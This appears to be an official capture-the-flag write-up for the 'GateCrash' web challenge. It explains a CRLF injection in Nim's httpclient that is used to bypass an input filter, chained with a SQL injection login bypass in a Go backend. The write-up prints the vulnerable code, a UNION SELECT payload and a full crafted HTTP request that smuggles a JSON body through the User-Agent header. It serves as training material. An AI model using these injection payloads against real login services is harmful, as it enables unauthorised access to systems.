

        <font size="10">GateCrash</font>

16<sup>th</sup> November 2023 / D23.xx.xx

​Prepared By: Lean

​Challenge Author(s): Lean

​Difficulty: <font color=green>Easy</font>

​Classification: Official

# [Synopsis](#synopsis)

- The challenge involves a user login web application written in Golang and Nim.

## Description

* An administrative portal for the campus parking area has been identified, bypassing it's authentication and gaining access to the gate control would allow us to unlock it and use staff vehicles for securing the campus premises way faster. 

## Skills Required

- Basic understanding of Golang
- Basic understanding of Nim
- Basic understanding of the HTTP protocol
- Basic understanding of SQL
- Experience in searching for known vulnurabilities

## Skills Learned

- CRLF injection
- SQL injection login bypass

## Application Overview



### Nim's httpclient CRLF Injection Vulnerability

The `main.nim` file contains a piece of code in the `routes` section that checks for SQL injection:

```nim
proc containsSqlInjection(input: string): bool =
  for c in input:
    let ordC = ord(c)
    if not ((ordC >= ord('a') and ordC <= ord('z')) or
            (ordC >= ord('A') and ordC <= ord('Z')) or
            (ordC >= ord('0') and ordC <= ord('9'))):
      return true
  return false
```

The `containsSqlInjection` procedure checks for suspicious characters that could indicate an SQL injection attack. However, it can be bypassed.

The vulnerability lies in the fact that the code uses `decodeUrl` to decode the user agent header, but it does not properly validate or sanitize the decoded value. This allows an attacker to inject CRLF (Carriage Return Line Feed) characters into the user agent header and bypass the SQL injection check.

```nim

routes:
  post "/user":
    let username = @"username"
    let password = @"password"

    if containsSqlInjection(username) or containsSqlInjection(password):
      resp msgjson("Malicious input detected")

    let userAgent = decodeUrl(request.headers["user-agent"])

    let jsonData = %*{
      "username": username,
      "password": password
    }

    let jsonStr = $jsonData

    let client = newHttpClient(userAgent)
    client.headers = newHttpHeaders({"Content-Type": "application/json"})

    let response = client.request(userApi & "/login", httpMethod = HttpPost, body = jsonStr)

    if response.code != Http200:
      resp msgjson(response.body.strip())
       
    resp msgjson(readFile("/flag.txt"))
```

Nims standard http library suffers from CRLF injection as of version <=1.2.6 [https://consensys.io/diligence/vulnerabilities/nim-httpclient-header-crlf-injection/](https://consensys.io/diligence/vulnerabilities/nim-httpclient-header-crlf-injection/)

We can verify that the challenge is vulnerable by looking at the `Dockerfile`, at line 22 `nim 1.2.4` is installed.

```
RUN choosenim update 1.2.4
```

To exploit this vulnerability, we can modify the user agent header in the HTTP POST request to include a CRLF sequence followed by a payload that will bypass the SQL injection check.

### SQL Injection

The `main.go` file implements a Golang server that handles the `/login` route. It also checks the user agent to ensure it matches one of the allowed user agents.

However, there is a vulnerability in the way the SQL query is constructed. The code concatenates the user input directly into the SQL query string, which allows an attacker to perform an SQL injection attack. This vulnerability can be found in the following lines of code:

```go
row := db.QueryRow("SELECT * FROM users WHERE username='" + user.Username + "';")
```

To exploit this vulnerability, we can use the Nim CRLF injection vulnerability to bypass the user agent check and inject a payload that contains an SQL injection attack.

By performing these two steps, we can exploit the vulnerabilities in both Nim and Golang to retrieve the flag.

```nim
let payload = """{"username":"' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq","password":"test"}"""
```

By injecting this payload into the user agent header, the SQL injection check will be bypassed and the code will execute the following query:

```sql
SELECT * FROM users WHERE username='' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq' AND password='test';
```

This query will return a fake user with arbitraty an password hash that matches the one we provide in the request.

Also a dummy username and password are added with the exact character length of the CRLF payload in order to exactly match the Content-Length of the request thus overwriting the original one with the injected content.

```
POST http://127.0.0.1:1337/user
User-Agent: ChromeBot/9.5%0D%0A%0D%0A{"username":"' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq","password":"test"}
Accept-Encoding: gzip, deflate, br, zstd
Accept: */*
Connection: keep-alive
Content-Length: 110
Content-Type: application/x-www-form-urlencoded

username=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&password=aaaa
```